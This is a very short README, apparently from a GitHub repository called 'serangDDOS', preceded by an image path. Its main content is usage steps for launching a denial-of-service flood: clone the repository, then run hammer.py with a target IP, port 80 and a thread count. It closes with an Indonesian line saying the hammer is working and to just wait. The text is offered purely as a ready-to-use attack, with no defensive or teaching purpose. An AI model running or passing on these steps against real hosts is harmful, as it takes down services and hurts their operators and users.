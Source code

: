# serangDDOS
$ git clone http://github.com/wafikhasbi/serangDDOS
$ ls
$ cd serangDDOS
$ python hammer.py
$ python3 hammer.py -s (IP target) -p (80) -t (135)
# hammer sudah bekerja tinggal nunggu
